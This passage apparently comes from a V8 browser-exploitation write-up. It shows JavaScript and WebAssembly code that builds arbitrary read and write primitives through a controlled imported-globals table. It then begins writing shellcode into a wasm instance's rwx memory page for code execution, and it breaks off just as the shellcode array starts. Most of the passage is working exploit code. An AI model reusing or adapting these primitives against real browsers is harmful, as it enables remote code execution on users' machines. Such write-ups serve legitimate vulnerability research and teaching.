 This is easily extracted out into a function. A pointer is provided and stored in the controlled
`imported_mutable_globals` table, and a value is read from it.

```js
const strong_read = p => {
  store[0] = utof(p);
  return itou(instance.exports.read());
};
```


## An Arbitrary Write Primitive

The arbitrary write primitive is implemented in an almost identical manner to the read primitive.
However, a new web-assembly function is introduced that writes a 64-bit integer to the global
variable.

```clojure
(module
  (global $g (import "js" "global") (mut i64))
  (func (export "read") (result i64)
    (global.get $g)
  )
  (func (export "write") (param $p i64)
    (global.set $g (local.get $p))
  )
)
```

You can see how similar it is to the read primitive. It uses the same logic to replaced the
pointer to the location in memory we want to modify. The only difference being that the
web-assembly function used to write to a global variable is called.

```js
const strong_write = (p, x) => {
  store[0] = utof(p);
  instance.exports.write(x);
};
```


## Code Execution

In order to achieve code execution we don't actually require the arbitrary read primitive, it was
really just an extra primitive to explore. All the values we need to leak are already stored on
the heap.

The arbitrary write primitive however, is extremely useful. In the code below, it is used to write
shellcode to the `rwx` page allocated by a wasm instance object. This, of course, is a very well
documented technique used to achieve code execution in V8.

```js
let _wasm = new Uint8Array([
  0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00, 0x01, 0x85, 0x80, 0x80, 0x80,
  0x00, 0x01, 0x60, 0x00, 0x01, 0x7f, 0x03, 0x82, 0x80, 0x80, 0x80, 0x00, 0x01,
  0x00, 0x04, 0x84, 0x80, 0x80, 0x80, 0x00, 0x01, 0x70, 0x00, 0x00, 0x05, 0x83,
  0x80, 0x80, 0x80, 0x00, 0x01, 0x00, 0x01, 0x06, 0x81, 0x80, 0x80, 0x80, 0x00,
  0x00, 0x07, 0x91, 0x80, 0x80, 0x80, 0x00, 0x02, 0x06, 0x6d, 0x65, 0x6d, 0x6f,
  0x72, 0x79, 0x02, 0x00, 0x04, 0x6d, 0x61, 0x69, 0x6e, 0x00, 0x00, 0x0a, 0x8a,
  0x80, 0x80, 0x80, 0x00, 0x01, 0x84, 0x80, 0x80, 0x80, 0x00, 0x00, 0x41, 0x2a,
  0x0b
]);
let _module = new WebAssembly.Module(_wasm);
let _instance = new WebAssembly.Instance(_module);

let rwx = weak_read(addrof(_instance) + 0x68); 

let shellcode = [
```